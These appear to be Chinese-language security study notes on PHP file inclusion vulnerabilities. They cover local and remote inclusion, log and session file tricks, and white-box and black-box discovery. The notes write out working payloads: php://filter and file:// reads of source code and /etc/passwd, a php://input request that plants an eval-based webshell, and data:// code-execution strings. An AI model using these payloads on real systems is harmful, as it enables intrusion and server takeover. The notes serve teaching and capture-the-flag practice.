


漏洞原因：

1、使用文件包含函数

2、包含的文件可控


分类：

1、本地包含

​	利用：

​		1、有文件上传功能：上传一个文件，文件写有我们的恶意代码

​		2、无文件上传功能：

​			（1）包含日志文件利用

​			（2）包含Session文件利用

​			（3）伪协议

2、远程包含

allow_url_include





- 文件读取: 

  ```
  file:///etc/passwd 
  php://filter/read=convert.base64-encode/resource=phpinfo.php
  ```

- 文件写入: 

  ```
  php://filter/write=convert.base64-encode/resource=phpinfo.php 
  php://input 然后POST里面写:<?php fputs(fopen('shell.php', 'w'), '<?php @eval($_GET[cmd]);?>');?>
  ```

  

- 代码执行: 

  ```
  php://input POST:<?php phpinfo();?>
  data://text/plain,<?php phpinfo();?>
  data://text/plain;base64,PD9waHAHAgcGhwaW5mbygpOz8%2b
  ```


白盒审计：（CTFSHOW）

- 白盒发现： 

  1、可通过应用功能追踪代码定位审计 

  2、可通过脚本特定函数搜索定位审计 

  3、可通过伪协议玩法绕过相关修复等

PHP: include、require、include_once、require_once等 

include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行 

require函数出现错误的时候，会直接报错并退出程序的执行

Java: java.io.File、java.io.FileReader等

ASP.NET: System.IO.FileStream、System.IO.StreamReader等

黑盒分析：

- 黑盒发现：主要观察参数传递的数据和文件名是否对应 URL中有path、dir、file、pag、page、archive、p、eng、语言文件等相关字眼